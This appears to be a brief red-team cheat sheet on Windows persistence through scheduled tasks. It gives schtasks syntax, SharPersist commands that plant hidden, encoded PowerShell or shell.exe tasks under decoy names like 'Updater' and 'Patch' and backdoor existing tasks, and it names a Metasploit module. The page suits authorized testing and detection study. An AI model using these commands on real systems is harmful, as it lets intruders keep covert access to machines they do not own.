 # Schtasks

## 01 - Command Prompt

`C:\> schtasks /create /tn <task_name> /sc <minute | hourly | daily | weekly | monthly | once | onstart | onlogon | onidle> /st HH:MM:SS /st <MM/DD/YYYY> /sd <MM/DD/YYYY> /tr <commands>`

## 02 - SharPersist

```
C:\> SharPersist.exe -t schtask -c "C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc <base64_encoded>" -n "Updater" -m add -o hourly

C:\> SharPersist.exe -t schtask -c "C:\Windows\System32\cmd.exe" -a "/c C:\path\to\shell.exe" -n "Patch" -m add -o logon

C:\> SharPersist.exe -t schtaskbackdoor -c "C:\Windows\System32\cmd.exe" -a "/c C:\path\to\shell.exe" -n "Patch" -m check

C:\> SharPersist.exe -t schtaskbackdoor -m list -o logon
```

## 03 - Metasploit

TODO: Fill this info

```
msf > use exploit/windows/local/s4u_persistence
```

---
## References

- [Mandiant: SharPersist Windows Persistence Toolkit](https://www.mandiant.com/resources/sharpersist-windows-persistence-toolkit)

- [Zweilosec: Windows RedTeam Persistence](https://zweilosec.gitbook.io/hackers-rest/windows-1/windows-redteam/persistence)

- [Persistence Info](https://persistence-info.github.io/)

- [Persistence Scheduled Tasks](https://pentestlab.blog/2019/11/04/persistence-scheduled-tasks/)

- [Cobalt Strike: Schtasks Persistence with Powershell one liners](https://www.cobaltstrike.com/blog/schtasks-persistence-with-powershell-one-liners/)